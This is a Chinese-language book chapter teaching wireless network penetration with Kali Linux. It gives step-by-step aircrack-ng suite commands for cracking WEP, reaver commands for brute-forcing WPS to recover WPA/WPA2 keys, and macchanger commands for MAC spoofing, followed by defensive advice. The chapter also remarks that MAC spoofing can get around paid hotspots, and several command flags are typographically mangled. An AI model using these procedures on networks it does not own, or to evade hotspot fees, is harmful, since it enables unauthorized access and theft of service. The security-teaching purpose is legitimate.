# 第四章：渗透无线网络

在本章中，您将学习如何计划攻击和破解 WEP/WPA/WPA2 无线网络，并学习 MAC 地址欺骗以获取对网络的未经授权访问。您还将学习如何保护自己免受这些威胁。本章将提供 Kali Linux 的实践、逐步说明。请记住，只有在第一章结尾提到的任何无线网卡或适配器，您才能跟随本章的破解部分。

在我们开始之前，有一些事情您应该知道，我们在破解任何无线网络之前：

+   未经授权破解任何无线网络是非法的

+   如果您未经授权被抓到，您将根据您所在地区的法律面临后果

+   请只在您自己的网络上演示技术

# 计划攻击

在我们对任何无线加密进行扫描或破解之前，我们需要做的第一件事是计划一次攻击。我们需要确保我们有一切必需的东西来进行无线渗透测试，并尽可能多地问自己问题，以免在途中遇到任何障碍。让我们从需求列表开始，然后再看看我们将采取哪些步骤来破解无线网络。


## 攻击所需的东西？

这里，我们列出了进行全面无线攻击所必需的东西：

+   **兼容的无线适配器**：注意它必须支持数据包注入

+   **Kali Linux 操作系统**：我们所有的安全工具都是预装的

+   **纸和笔做笔记**：这将帮助我们保持有序

## 攻击无线网络的计划

以下是计划无线攻击的步骤：

1.  扫描该地区的无线网络列表。

1.  注意 BSSID、信道号和加密。

1.  列出您将使用的几种攻击方法：

+   Airodump

+   Aircrack

+   字典攻击

+   默认登录

+   猜测密码

1.  按照每种方法进行。

1.  记录成功和失败的结果。

1.  重试。

# 无线密码破解

有许多不同的方法来破解无线加密。我将介绍破解无线网络最常见的方法。在接下来的几节中，我将详细讨论每种无线加密，然后演示如何破解这些无线加密类型。让我们开始吧！

## WEP 加密

**有线等效隐私**（**WEP**）加密是一种标准的 Wi-Fi 无线网络安全算法，用于保护个人和商业网络。WEP 密钥由网络管理员创建，以允许本地网络上的设备组安全连接。当每个数据包从客户端发送到无线接入点时，它会被编码为十六进制数字序列。这些数字包括 0 到 9 的数字和 A 到 F 的字母。



WEP 密钥越长，WEP 加密的位数就越强。例如，如果您有一个包含 10 个字符的 WEP 密钥，它可能在 40 到 60 位之间，而具有更复杂的 58 个字符的 WEP 密钥将更强大，大约为 256 位。一些网络仍然依赖 WEP 加密，因为个人或企业可能仍然有旧设备通过 Wi-Fi 连接。截至今天，仍然有一些仓库或工厂使用 WEP 加密，因为他们根本不想投资于可能破坏生产网络的新技术。

## 破解 WEP 加密

在本节中，我们将逐步介绍如何破解 WEP 加密的步骤说明。


1.  打开终端，输入以下命令，然后按*Enter*：

```
airmon-ng start wlan0

```

此命令将启动`wlan0`接口进入监视模式。**监视模式**是一个功能，允许您的计算机监听无线卡范围内的每个无线数据包。这种模式将允许我们向无线网络注入数据包。以下是输出：



1.  然后输入以下命令并按*Enter*：

```
airodump-ng mon0

```

此命令在无线接口上启用监视模式。以下是输出：



1.  输入以下命令并按*Enter*：

```
airodump-ng –c 6 –w capture --bssid 00:13:10:9A:4E:B5 mon0

```

以下是命令的组成部分：

+   `-c`：这是频道

+   `-w`：这给予文件写入权限

+   `--bssid`：这是无线接入点的 MAC 地址

以下是前述命令的输出：



您需要用您的网络信息替换粗体部分。

1.  输入以下命令并按*Enter*：

```
aireplay-ng -1 1000 –q 10 –e linksys–a 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0 –ignore-negative-one

```

以下是命令的组成部分：

+   `-1`：这是每次突发传输的数据包数

+   `-q`：这是保持活动之间的秒数

+   `-e`：这设置了目标 AP SSID

+   `-a`：这设置了接入点的 MAC 地址

+   `-h`：这设置了源 MAC 地址（`00:11:22:33:44:55`是伪造的 MAC 地址）

+   `-ignore-negative-one`：这解决了`mon0`上的固定频道

如果您在运行此命令时遇到问题，请尝试在启用监视模式后将接口关闭。以下是您可以这样做的方法：

```
airmon-ng start wlan0

```

然后，运行以下命令：

```
ifconfig wlan0 down

```

这将解决频道`-1`错误消息，如下所示：



1.  输入以下命令并按*Enter*：

```
aireplay-ng -3 –b 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0

```



1.  是时候破解 WEP 密钥了！输入以下命令并按*Enter*：

```
aircrack-ng capture-01.cap

```

在这里，`capture-01.cap`是包含数据的文件名。它可以是完整的数据包或仅包含 IVs 的文件。必须至少有四个 IVs。

只有当 100%的十六进制密钥已转换为 ASCII 时，才会显示 WEP 密钥。一旦您收到密钥，您可以尝试连接到无线网络。



如果您能够破解网络密钥，恭喜您成功破解了一个 WEP 加密的网络！如果您没有成功，不要担心。每个网络和无线接入点都是不同的。这还取决于您和接入点之间的信号以及使用的加密方式。

## 破解 WPA 和 WPA2 加密

WPA 和 WPA2 是用于保护无线网络的两种不同的安全算法。WPA 使用 TKIP，而 WPA2 同时使用 TKIP 和 AES。截至今天，大多数常见的无线路由器和接入点都提供了一种快速和无忧的连接到安全网络的方法。WPS 是一个允许轻松设置安全网络的功能；然而，WPS 可以很容易地通过 Kali Linux 中提供的正确安全工具来破解。WPA 旨在取代 WEP，因为安全机构发现严重的缺陷使得在几分钟内轻松获得未经授权的访问成为可能。尽管破解 WPA 要困难得多，但仍然有可能破解 WPA 甚至最新的 WPA2 加密算法。

在本节中，我将演示破解 WPA 和 WPA2 无线网络。

1.  打开终端并输入以下命令：

```
airmon-ng start wlan0

```

此命令将启动`wlan0`接口进入监视模式：


1.  输入以下命令并按*Enter*：

```
airodump-ng mon0

```

这将允许我们向无线网络注入数据包。



1.  输入以下命令并按*Enter*：

```
reaver –i mon0 –c 11 –e Johns –b 20:AA:4B:F2:25:4E –vv --no-nacks

```

以下是前述命令的组成部分：

+   `-i`：这是无线接口

+   `-c`：这是频道号

+   `-e`：这设置了目标接入点

+   `-b`：这设置了目标 MAC 地址

+   `-vv`：这将两次设置详细选项，以增加详细信息并在尝试时显示每个 PIN 号码

+   `--no-nacks`：这可以确保目标接入点的可靠性更高

以下是输出：



您需要更改加粗的部分。这个过程可能需要 2 到 10 小时才能完成。如果失败了，可能是因为无线信号强度不好或者这个设备没有实现 WPS。

### 什么是 Reaver？

Reaver 是一个免费的开源工具，可以利用和破解 WPA 或 WPA2 加密的无线网络。它还设计用于对启用 WPS 的无线接入点进行暴力攻击。

### Reaver 是如何工作的？

现在您知道 Reaver 是什么了，我们需要简要讨论一下它是如何工作的。Reaver 利用了无线设备中的一个功能，叫做 WPS。**Wi-Fi Protected Setup**（**WPS**）允许那些不知道如何设置无线安全的人轻松设置。它生成一个 PIN 码，该 PIN 码是硬编码到该特定设备的。Reaver 利用 PIN 码中的漏洞，只需片刻就能揭示 WPA 或 WPA2 密码短语。

### 保护自己免受 Reaver 攻击

要轻松保护自己免受 Reaver 攻击，禁用无线设备的 WPS 功能。如果您是企业用户，请使用 WPA2-PSK（AES）。如果您是家庭用户，请使用 WPA2 个人 AES。永远不要生成密码，使用一个强大的复杂密码短语，并经常更新密码短语。

## WPA/WPA2 破解结果

如您在以下截图中所见，我们已经破解了 WPA/WPA2 加密。如果您尝试连接到无线网络，它将要求输入 PIN 码或 WPA PSK 密钥。输入其中一个，您应该就可以完全访问该无线网络，如图所示：



# 欺骗您的 MAC 地址

我相信你现在肯定知道 MAC 地址过滤并不是真正安全的。在我看来，它比 WEP 加密要不那么有效，因为很容易伪造。这并不意味着 MAC 地址过滤是没有用的。它确实可以阻止很多攻击者，他们只针对最薄弱的网络。无论你做什么，都不要仅仅依靠 MAC 过滤！WEP 加密要比没有加密好。



这并不需要很多技能。你所需要做的就是监听无线网络上的网络流量，并将你的 MAC 地址更改为已连接的人的 MAC 地址。使用自动化脚本或应用程序，更改 MAC 地址就像 123 一样容易。接下来，我将演示如何使用一个名为**macchanger**的工具欺骗您的 MAC 地址。

1.  打开终端。

1.  输入以下命令并按*Enter*：

```
ifconfig wlan0 down:

```

此命令关闭或禁用无线接口。

1.  要重新打开`wlan0`，输入以下命令并按*Enter*：

```
Ifconfig wlan0 up

```

以下是输出：



1.  输入以下命令并按*Enter*：

```
macchanger –-random wlan0::

```

此命令会为无线接口随机生成一个虚假的 MAC 地址：



1.  输入以下命令并按*Enter*：

```
macchanger --–mac=00:11:22:33:44:55 wlan0

```

此命令允许您在无线接口上分配一个 MAC 地址进行欺骗，如下所示：



就是这样！很容易吧？知道这些可以帮助绕过付费的热点网络，用户必须支付一定时间的费用。咖啡店、餐厅、机场和酒店都会有这种网络。当用户支付时，他们的 MAC 地址会被添加到允许访问互联网的 MAC 地址列表中。

# 保护自己免受无线攻击

我们总是需要知道如何保护自己免受这些威胁和攻击。


接下来，我们将讨论如何保护自己免受这些攻击：

+   更强的加密将减少攻击风险

+   MAC 过滤也可以帮助减少攻击风险

+   只有在您的设备与 WPA/WPA2 不兼容时才使用 WEP；然而，由于不安全，不建议使用

+   为业务网络创建一个单独的 VLAN 以限制访问

+   禁用或关闭 WPS 设置

+   创建一个强大、复杂的密码短语

+   应该每 3 或 4 个月更改一次密码短语

+   不要使用制造商配置的默认密码

+   使用 EAP 而不是 PSK

+   更改默认的 SSID 名称

# 总结

就这些了！希望你喜欢我为你准备的演示。这一章对我们两个来说都很有趣和有趣。让我们花一点时间回顾一下你在这一章学到了什么。

在本章中，我们制定了一项攻击计划。接下来，我们列出了几种攻击方法。然后，我们详细介绍了 WEP、WPA 和 WPA2 加密的信息。最后，我们列出了几种减少无线攻击风险的方法。

在下一章中，我们将介绍如何识别无线网络上的主机，确定网络规模，并检测该网络上的易受攻击的设备和系统。我相信你和我一样兴奋。让我们继续吧！
